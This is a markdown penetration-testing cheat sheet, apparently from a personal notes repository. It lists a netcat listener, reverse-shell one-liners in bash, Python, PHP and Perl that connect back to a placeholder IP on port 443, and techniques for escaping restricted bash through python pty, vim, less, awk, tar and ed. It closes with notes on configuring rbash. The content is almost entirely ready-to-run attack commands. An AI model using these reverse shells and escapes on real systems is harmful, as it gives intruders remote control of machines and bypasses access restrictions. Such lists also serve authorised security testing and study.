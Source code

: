 # shell

    # listen on 80,443 to avoid firewall drops
    nc -v -l -p 443

## reverse shell

    bash -i >& /dev/tcp/<ip>/443 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    # php
    <?system('bash -i >& /dev/tcp/<ip>/443 0>&1');?>

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

    $output = shell_exec('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
    echo $output;

    # perl
    perl -e 'use Socket;$i="<ip>";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

    perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('<ip>')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};"

## direct shell

    ssh ruser@127.0.0.1 -t "bash --noprofile"
    cd /etc

    python -c "import os; os.system('/bin/sh')"
    python -c "import pty; pty.spawn('/bin/bash')"

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py

    /bin/sh -i

    perl -e 'exec "/bin/sh";'

    ruby -e 'exec "/bin/sh"'

    lua -e 'os.execute("/bin/sh")'

    awk 'begin {system("/bin/sh")}'

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=sh

    # vim
    :!bash
    :set shell=/bin/bash:shell

    :set shell=/bin/bash
    :shell
    cd /etc

    # more, less, man
    !sh

    # expect
    spawn sh

    # ed
    !'/bin/sh'

## rbash setup

> restricted bash

    # enabling for a user
    cd /bin
    ln -s bash rbash
    useradd -m ruser
    usermod --shell /bin/rbash ruser
    grep -rni ruser /etc/passwd

    # start directly
    bash -r
    cd /etc/
    -rbash: cd: restricted
